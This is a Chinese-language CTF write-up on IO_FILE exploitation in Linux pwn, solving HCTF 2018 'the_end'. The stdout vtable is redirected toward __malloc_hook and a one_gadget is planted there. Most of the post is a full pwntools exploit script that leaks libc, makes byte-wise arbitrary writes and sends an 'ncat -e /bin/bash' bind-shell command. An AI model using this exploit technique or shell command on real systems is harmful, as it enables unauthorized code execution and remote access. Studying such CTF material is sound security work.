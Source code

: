 ```yaml
---
title: 浅析 IO_FILE 利用
categories:
  - linux_pwn
tags:
  - Null
---
```


`IO_FILE` 是一个很重要的技巧，在 `pwn` 中给我们提供一个其他 `GetShell` 的思路。



# 0x1 漏洞原理

暂无





# 0x2 漏洞利用



## 0x21 hctf 2018 - the_end && fake vtable

日常 `checsec` 一下：

```sh
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

看到这里心里咯噔一下，难道是个栈溢出？



### 程序分析

事实证明我想多了，流程图如下：

![the_end_flow_chart](/image/2019-04-07-linux_pwn_io_file/the_end_flow_chart.jpg)

这里条件限制的很死啊，最多可以给一个地址写五个字节，改返回地址已经不怎么现实了，找找 `exit` 函数有什么可以利用的吧。

![exit_process](/image/2019-04-07-linux_pwn_io_file/exit_process.jpg)

### 程序利用

看到这里，怎么利用，基本就呼吁而出了，我们可以通过更改 `stderr` 或者 `stdout` 的 `vtable` 表使其指向我们可控的地址，然后在新 `vtable` 更改所对应的函数位置即可。



`poc` ：

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def changed_content(exp_file, change_addr, change_value):
    print(hex(ord(change_value)))
    exp_file.send(p64(change_addr)+change_value)


def main():
    debug = 0
    if debug:
        exp_file = process("/home/who/Desktop/the_end")
    else:
        exp_file = remote("127.0.0.1", 9999)
    libc_file = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    one_gadget_offset = 0xf02b0
    
    # Get base address of libc
    sleep_addr = int(exp_file.recvuntil(";)", drop=True).split("here is a gift ")[1][:14], 16)
    libc_addr = sleep_addr - libc_file.symbols['sleep']
    one_gadget_addr = libc_addr + one_gadget_offset
    stdout_addr = libc_addr + libc_file.symbols['_IO_2_1_stdout_']
    stout_old_vtable = stdout_addr + 0xd8
    stderr_addr = libc_addr + libc_file.symbols['__malloc_hook']
    stdout_new_vatble = stderr_addr - 0x68
    log.info("sleep_addr:{addr}".format(addr=hex(sleep_addr)))
    log.info("libc_addr:{addr}".format(addr=hex(libc_addr)))
    log.info("stdout_addr :{addr}".format(addr=hex(stdout_addr)))
    log.info("stout_old_vtable :{addr}".format(addr=hex(stout_old_vtable)))
    log.info("one_gadget_addr:{addr}".format(addr=hex(one_gadget_addr)))
    log.info("stdout_new_vatble:{addr}".format(addr=hex(stdout_new_vatble)))

    # Change stdout_vtable to __malloc_hook - 0x68
    changed_content(exp_file, stout_old_vtable, chr(int(hex(stdout_new_vatble)[12:], 16)))
    changed_content(exp_file, stout_old_vtable+1, chr(int(hex(stdout_new_vatble)[10:12], 16)))
    
    # Change vtable->setvbuf to onegadget
    changed_content(exp_file, stdout_new_vatble+0x58, chr(int(hex(one_gadget_addr)[12:], 16)))
    changed_content(exp_file, stdout_new_vatble+0x59, chr(int(hex(one_gadget_addr)[10:12], 16)))
    changed_content(exp_file, stdout_new_vatble+0x5a, chr(int(hex(one_gadget_addr)[8:10], 16)))

    # Now, we get shell!
    exp_file.sendline("ncat -e /bin/bash -klp 5555")
    exp_file.interactive()


if __name__ == '__main__':
    main()
```

